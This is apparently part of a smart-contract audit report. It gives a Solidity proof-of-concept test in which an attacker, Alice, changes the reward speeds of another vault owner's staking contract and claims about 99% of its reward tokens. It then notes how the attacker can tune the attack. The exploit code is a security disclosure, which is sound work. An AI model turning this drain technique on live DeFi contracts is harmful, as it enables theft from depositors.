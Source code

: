 ```solidity
          withdrawal: 200,
          management: 300,
          performance: 400
        }),
        feeRecipient: feeRecipient,
        owner: address(this)
      }),
      DeploymentArgs({ id: templateId, data: abi.encode(uint256(100)) }),
      DeploymentArgs({ id: 0, data: "" }),
      staking,
      "",
      VaultMetadata({
        vault: address(0),
        staking: staking,
        creator: alice,
        metadataCID: metadataCid,
        swapTokenAddresses: swapTokenAddresses,
        swapAddress: address(0x5555),
        exchange: uint256(1)
      }),
      0
    );

    asset.mint(alice, 10 ether);
    asset.approve(vault, 10 ether);
    IVault(vault).deposit(10 ether, alice);
    IVault(vault).approve(staking, 10 ether);
    IMultiRewardStaking(staking).deposit(1 ether, alice);

    address[] memory targets = new address[](1);
    targets[0] = attackerVault;
    IERC20[] memory rewardTokens = new IERC20[](1);
    rewardTokens[0] = iRewardToken;
    uint160[] memory rewardsSpeeds = new uint160[](1);
    rewardsSpeeds[0] = 990_099_990 ether;
    controller.changeStakingRewardsSpeeds(targets, rewardTokens, rewardsSpeeds);

    assertGt(rewardToken.balanceOf(staking), 1_000_000 ether);

    vm.warp(block.timestamp + 12);
    MultiRewardStaking(staking).claimRewards(alice, rewardTokens);

    assertGt(rewardToken.balanceOf(alice), 999_999 ether);
    assertLt(1 ether, rewardToken.balanceOf(staking));
    vm.stopPrank();
  }
```

The PoC shows that the attacker, Alice, can drain any reward token of a Staking contract deployed by a different vault owner. In this test case, Alice does the attack described above stealing a total 999,999 worth of reward tokens (99% of reward tokens owned by the Staking contract.)
Note that the attacker can tweak the amount they stake in the contract, the reward speed they'll use, and the seconds to wait before, before claiming rewards. All of those things have an effect on the cost of the attack and how much can be drained.

